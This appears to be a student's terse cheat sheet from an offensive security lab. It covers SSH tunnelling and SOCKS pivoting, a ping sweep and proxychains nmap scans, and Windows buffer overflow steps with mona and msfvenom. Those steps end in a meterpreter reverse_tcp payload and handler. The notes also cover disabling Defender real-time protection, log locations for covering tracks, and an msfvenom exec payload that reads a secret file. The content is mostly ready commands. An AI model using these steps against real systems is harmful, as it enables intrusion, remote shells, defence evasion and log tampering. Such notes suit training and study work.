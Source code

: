 KEPE-006-M
jTlU99dknad4D95

Tunnels
ssh -MS /tmp/gray student@10.50.46.234
ssh -S /tmp/gray gray -O forward -D9050
ssh -S /tmp/gray 10 -O forward -L 1700:192.168.28.27:22

for i in {1..254} ;do (ping -c 1 192.168.1.$i | grep "bytes from" &) ;done
proxychains nmap -v -sT -Pn -T4 -sV 192.168.28.129,112,113,114 
-p-[all ports] -p[22,23]


ssh www-data@0.0.0.0 -p 1460 -L 1400:192.168.150.253:3201 -NT



Windows Buffer Overflow
Break program with tcpcon.py

Open Immunity debuger CPU window and exe as administrator
Attach file in cpu window
Generate Buffer overflow pattern https://wiremask.eu/tools/buffer-overflow-pattern-generator/
Copy EIP to find where the error happens
add DEADCODE to buff in script
mona modules -o
imona jmp -r esp -m "<file>"
find jmp esp instruction memory address
msfvenom -p windows/meterpreter/reverse_tcp lhost=10.50.46.234 lport=4444 -b
msfconsole -q
use exploit/multi/handler

set payload windows/meterpreter/reverse_tcp
show options, set lhost, set lport
shut off real time protection in windows-> security -> vires and threat -> mange settings -> real-time protection





Privilege Escalation,P Persistence and Covering your Tracks
sudo -l (list user permissions)
/var/log/ auth.log/secure (login/authen) lastlog(successful login time) btmp(bad login) sulog(SU command) utmp(W command) wtmp(permanent record on user)

find /var/log -type f -mmin -10 2> /dev/null

msfvenom -p linux/x86/exec CMD="sudo cat /.secret/.verysecret.pdb" -b '\x00' -f python
